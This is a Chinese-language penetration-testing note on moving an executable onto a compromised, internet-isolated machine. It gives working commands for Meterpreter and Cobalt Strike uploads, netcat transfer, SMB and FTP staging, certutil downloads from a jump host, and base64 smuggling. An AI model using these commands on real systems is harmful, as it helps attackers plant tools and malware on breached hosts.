 ### 一台机器不能出网，如何把一个 exe 文件放到对应的目标机器上去

**1. 利用现有会话通道**

如果你的权限获取是通过某个工具（如 Meterpreter、Cobalt Strike 等）建立的会话，并且这个会话本身可以实现文件传输，那么这是最直接的方法

- **Meterpreter 的 `upload` 命令**: 如果你已经拿到了 Meterpreter 会话，直接使用 `upload /path/to/local/file C:\path\on\target\machine` 命令就可以将本地文件上传到目标机器
- **Cobalt Strike 的 `upload` 命令**: 类似地，在 Cobalt Strike 的 Beacon 会话中，`upload /path/to/local/file C:\path\on\target\machine` 同样可以完成任务
- **nc (Netcat) 通道**: 如果没有 Meterpreter 或 Cobalt Strike，但能通过其他方式建立一个 `nc` 连接，可以在本地机器使用 `nc -l -p 4444 < file.exe`，然后在目标机器上使用 `nc <本地IP> 4444 > file.exe` 来进行文件传输

**2. 利用系统自带工具或协议**

如果无法建立现有的会话通道，或者现有工具无法传输文件，我们可以利用目标机器上已有的工具和协议

- **SMB/Cifs 共享**: 如果目标机器在 Windows 内网环境中，并且你可以访问到一个可以上传文件的 SMB 共享。
  1. **在跳板机上开启共享**: 使用 `smbserver.py` (Impacket 工具集) 或 Windows 自带的共享功能，在跳板机上共享一个目录
  2. **在目标机上连接共享**: 在目标机上使用 `net use Z: \\<跳板机IP>\share` 命令挂载共享目录
  3. **复制文件**: 使用 `copy Z:\file.exe C:\` 将文件复制到目标机器
- **FTP 服务**: 如果目标机器或跳板机上有 FTP 服务
  1. **在跳板机上开启 FTP 服务**: 确保 FTP 服务可以被目标机访问到
  2. **在目标机上使用 `ftp` 命令**: 在目标机上使用 `ftp` 客户端连接到跳板机，然后使用 `get` 或 `put` 命令来传输文件
- **HTTP 服务**: 如果跳板机上可以开启一个简易的 HTTP 服务
  1. **在跳板机上开启 HTTP 服务**: 使用 Python 的 `http.server` 或 `SimpleHTTPServer` 模块，如 `python -m http.server 8080`
  2. **在目标机上使用 `certutil` 或 PowerShell 下载**: 在目标机上使用 `certutil.exe -urlcache -split -f http://<跳板机IP>:8080/file.exe C:\file.exe` 或 PowerShell 的 `Invoke-WebRequest` 命令下载文件。这种方式在很多 Windows 环境中非常有效，因为它绕过了部分防火墙

**3. 利用特殊编码或分割传输**

如果上述方法都不行，或者网络环境非常严格，可以考虑将文件进行编码或分割传输

- **Base64 编码**:
  1. **在本地编码**: 使用 `base64 file.exe > file.txt` 将文件编码成文本
  2. **传输文本**: 将生成的文本文件 `file.txt` 通过剪贴板、或者通过其他能传输文本的方式（如日志文件、数据库记录等）传输到目标机
  3. **在目标机解码**: 在目标机上使用 `certutil.exe -decode file.txt file.exe` 或 PowerShell 将文本解码回可执行文件。这种方法非常灵活，可以在几乎所有有文本传输的地方使用
- **文件分割**: 如果文件过大，可以先将文件分割成多个小块，然后逐一传输，最后在目标机上合并。这通常和上面的方法结合使用